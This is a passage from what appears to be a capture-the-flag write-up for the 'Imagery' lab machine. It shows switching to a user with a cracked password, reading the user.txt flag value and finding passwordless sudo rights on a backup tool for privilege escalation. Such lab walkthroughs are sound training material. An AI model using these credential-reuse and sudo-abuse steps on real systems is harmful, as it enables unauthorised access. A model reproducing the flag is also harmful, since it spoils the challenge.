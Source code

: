 Got `mark:supersmash`.

```bash
└─$ ssh mark@imagery.htb
mark@imagery.htb: Permission denied (publickey).
```

Can not ssh directly so we will `su mark` from the `web` session where we got reverse shell.

```bash
web@Imagery:~/web$ su mark
Password: 
mark@Imagery:/home/web/web$ id
uid=1002(mark) gid=1002(mark) groups=1002(mark)
```

Okay, so far so good.

```bash
mark@Imagery:/home/web/web$ cd /home/mark/
mark@Imagery:~$ ls -la
total 24
drwxr-x--- 2 mark mark 4096 Sep 22 18:56 .
drwxr-xr-x 4 root root 4096 Sep 22 18:56 ..
lrwxrwxrwx 1 root root    9 Sep 22 13:21 .bash_history -> /dev/null
-rw-r--r-- 1 mark mark  220 Aug 20  2024 .bash_logout
-rw-r--r-- 1 mark mark 3771 Aug 20  2024 .bashrc
-rw-r--r-- 1 mark mark  807 Aug 20  2024 .profile
-rw-r----- 1 root mark   33 Sep 28 03:32 user.txt
mark@Imagery:~$ cat user.txt 
c394a8f27dcf7645ff760534a209e4c6
```

Grabed out `user.txt` flag.

## Initial Access
Let's take around inside `mark` session.

### Discovery
```bash
mark@Imagery:~$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

So we got sudo permission with `charcol`.

### charcol
Take a look at it.

```bash
mark@Imagery:~$ sudo /usr/local/bin/charcol -h
usage: charcol.py [--quiet] [-R] {shell,help} ...

Charcol: A CLI tool to create encrypted backup zip files.

positional arguments:
  {shell,help}          Available commands
    shell               Enter an interactive Charcol shell.
    help                Show help message for Charcol or a specific command.

options:
  --quiet               Suppress all informational output, showing only warnings and errors.
  -R, --reset-password-to-default
```